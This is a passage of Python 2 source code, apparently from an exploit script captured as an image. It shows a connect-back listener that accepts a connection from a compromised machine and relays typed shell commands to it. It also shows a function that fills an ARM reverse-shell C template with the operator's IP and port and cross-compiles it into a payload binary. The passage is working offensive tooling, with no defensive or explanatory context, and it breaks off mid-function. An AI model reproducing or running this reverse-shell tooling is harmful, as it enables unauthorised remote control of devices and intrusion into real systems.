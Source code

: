 ```
            global DONE
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)
           
            host = ("0.0.0.0", REV_PORT)
           
            try:
                        s.bind(host)
            except:
                        print "[+] Error binding to %d" %REV_PORT
                        return -1
 
 
            print "[+] Connect back listener running on port %d" %REV_PORT
           
            s.listen(1)
            conn, host = s.accept()
 
            #We got a connection, lets make the exploit thread aware
            DONE = True
 
            print "[+] Got connect back from %s" %host[0]
            print "[+] Entering command loop, enter exit to quit"
 
            #Loop continuosly, simple reverse shell interface.
            while True:
                        print "#",
                        cmd = raw_input()
                        if cmd == "exit":
                                    break
                        if cmd == '':
                                    continue
 
                        conn.send(cmd + "\n")
 
                        print conn.recv(4096)
 
"""
* Take the ARM_REV_SHELL code and modify it with
* the given ip and port to connect back to.
* This function then compiles the code into an
* ARM binary.
@Param comp_path – This should be the path of the cross-compiler.
@Param my_ip – The IP address of the system running this code.
"""
def compile_shell(comp_path, my_ip):
            global ARM_REV_SHELL
            outfile = open("a.c", "w")
 
            ARM_REV_SHELL = ARM_REV_SHELL%(REV_PORT, my_ip)
           
            outfile.write(ARM_REV_SHELL)
            outfile.close()
 
            compile_cmd = [comp_path, "a.c","-o", "a"]
 
            s = subprocess.Popen(compile_cmd, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
           
            while s.poll() == None:
                        continue
 
            if s.returncode == 0:
                        return True
            else:
```